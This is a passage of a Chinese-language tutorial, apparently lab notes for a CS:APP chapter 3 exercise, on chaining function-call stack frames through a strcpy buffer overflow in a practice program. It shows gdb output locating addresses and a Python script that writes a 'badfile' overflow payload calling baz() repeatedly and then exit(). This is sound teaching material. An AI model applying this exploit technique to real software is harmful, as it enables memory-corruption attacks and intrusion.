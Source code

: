 基本上，我们只需要为我们希望返回的每个函数构造栈帧。它们的位置在 X、X+32、X+64 等等。我们需要确保这些值不包含任何零字节，因为任何零输入都会终止 strcpy() 的拷贝过程。如果有零字节，我们可以调整 X 和 Y 之间的距离以避免它。最终的栈布局如上图所示。

让我们在 stack_rop.c 程序中使用这种技术来调用 baz()。使用 gdb，我们可以找到 baz() 函数的地址，它是 **`0x5655628d`**。**函数序言中的前两条指令占用 3 个字节，所以如果我们想跳过这两条指令，我们应该返回** **`0x56556290`**。

```c{.line-numbers}
monica@xvm:~/csapp/chapter3$ gdb ./stack_rop_dbg
Reading symbols from ./stack_rop_dbg...
(gdb) b 32
Breakpoint 1 at 0x12db: file stack_rop.c, line 32.
(gdb) r
Starting program: /home/monica/csapp/chapter3/stack_rop_dbg 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Breakpoint 1, main (argc=1, argv=0xffffd154) at stack_rop.c:32
32		printf("%p, %p\n", &bar, &exit);
(gdb) p baz
$1 = {void (int)} 0x5655628d <baz>
```

下面是用于构造 badfile 文件的 python 代码，我们从第 15 行到第 17 行为 baz() 函数构建栈帧，包括设置下一个 %ebp（基指针）值、返回地址和参数（我们使用 0xAABBCCDD）。

```python{.line-numbers}
import sys

def tobytes(value):
    return (value).to_bytes(4, byteorder='little')

baz_skip_addr = 0x56556290
exit_addr = 0xf7db71f0
ebp_foo = 0xffffc8d8

content = bytearray(0xaa for i in range(112))

ebp_next = ebp_foo
for i in range(10):
    ebp_next += 0x20
    content += tobytes(ebp_next)
    content += tobytes(baz_skip_addr)
    content += tobytes(0xAABBCCDD)
    content += b'A' * (0x20 - 3*4)

content += tobytes(0xFFFFFFFF)
content += tobytes(exit_addr)
content += tobytes(0xAABBCCDD)

with open("badfile", "wb") as f:
    f.write(content)
```

使用上述 python 文件生成的 badfile 文件的结构如下所示，实际上 foo 函数栈帧中的 **<font color="red">baz() 函数的第一个参数</font>** 没有被使用，被打印出来的是后面 9 个 baz() 函数栈帧和 1 个 exit 函数栈帧中的参数。下面详细解释一下从 baz 函数返回到 exit 函数的过程，**当倒数第 2 个 baz 函数执行时，此时 %ebp=M，会打印 M+8 地址处的参数**。接着执行此 baz 函数的 epilogue，%ebp 寄存器的值变为 Z，并且跳转到最后一个 baz 函数执行，此时会打印 Z+8 地址处的参数。接着执行此 baz 函数的 epilogue，%ebp 的值变为 0xFFFFFFFF（但是并不重要），并且跳转到 exit 函数执行。
